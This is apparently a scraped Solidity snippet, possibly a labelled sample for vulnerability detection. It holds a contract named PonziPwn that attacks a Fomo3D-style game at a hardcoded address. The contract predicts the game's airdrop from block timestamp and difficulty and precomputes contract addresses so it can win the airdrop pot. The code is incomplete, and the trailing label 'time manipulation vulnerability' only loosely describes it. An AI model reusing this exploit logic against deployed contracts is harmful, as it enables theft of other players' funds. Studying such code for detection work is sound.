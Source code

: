 interface GameOfSwordsInterface {
    function airDropTracker_() external returns (uint256);
    function airDropPot_() external returns (uint256);
    function withdraw() external;
}

contract PonziPwn {

    GameOfSwordsInterface private fomo3d = GameOfSwordsInterface(0xE7d2c826292CE8bDd5e51Ce44fff4033Be657269);
    uint256 private blankContractCost = 20000*1000 ;
    uint256 private pwnContractCost = 250000*1000;
    bool _canWin = false;

    address _newSender = address(keccak256(abi.encodePacked(0xd6, 0x94, address(this), 0x01)));
    uint256 _pwnCost = 0;
    uint256 _seed = 0;
    uint256 _tracker = fomo3d.airDropTracker_();

    function checkPwnData() private returns(uint256,address) {

        while(!_canWin) {
            _seed = uint256(keccak256(abi.encodePacked((block.timestamp) + (block.difficulty))));

            if((_seed - ((_seed / 1000) * 1000)) >= _tracker) {
                    _newSender = address(keccak256(abi.encodePacked(0xd6, 0x94, _newSender, 0x01)));
                    _pwnCost+= blankContractCost;
            } else {
                    _canWin = true;
                    _pwnCost += pwnContractCost;
            }
        }
        return (_pwnCost,_newSender);
    }
}

 this code has time manipulation vulnerability